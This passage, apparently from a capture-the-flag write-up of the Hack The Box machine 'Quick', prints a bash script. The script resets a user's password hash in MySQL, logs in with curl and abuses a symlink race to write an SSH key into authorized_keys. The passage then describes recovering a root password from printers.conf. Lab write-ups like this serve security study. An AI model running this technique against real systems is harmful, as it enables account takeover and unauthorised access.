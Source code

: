 ```bash
#!/bin/bash

DBADMIN=db_adm
DBPASS=db_p4ss
HASH="$(perl -e "print crypt('password', 'fa')" | md5sum | tr -d ' -')"
COOKIE=$(mktemp -u)
HOST=printerv2.quick.htb
KEY="ssh-rsa AAAAB3N...brLF98=%0a"

# Modify database; need to be quick!
mysql -u$DBADMIN -p$DBPASS -Dquick -e "UPDATE users SET password = '$HASH' WHERE email = 'srvadm@quick.htb'" &>/dev/null

# Login
curl -s \
     -c $COOKIE \
     -d 'email=srvadm@quick.htb&password=password' \
     -H "Host: $HOST" \
     -m 3 \
     -o /dev/null \
     127.0.0.1/index.php

ln -s /home/srvadm/.ssh/authorized_keys /var/www/jobs/$(date +%F_%H:%M:%S)

curl -s \
     -b $COOKIE \
     -d "title=Test&desc=${KEY//+/%2b}&submit=" \
     -H "Host: $HOST" \
     -m 3 \
     -o /dev/null \
     127.0.0.1/job.php

rm -rf $COOKIE
```

{% include image.html image_alt="11a671ea.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/11a671ea.png" %}

I'm in.

### Getting `root.txt`

During enumeration of `srvadm`'s account, I notice the presence of `printers.conf` in `/home/srvadm/.cache/conf.d`. Guess what I found.

{% include image.html image_alt="275dffff.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/275dffff.png" %}

That looks a lot like some kind of password. It's decoded to `&ftQ4K3SGde8?`. Could this be `root`'s password? There's only one way to find out.

{% include image.html image_alt="deced3d1.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/deced3d1.png" %}
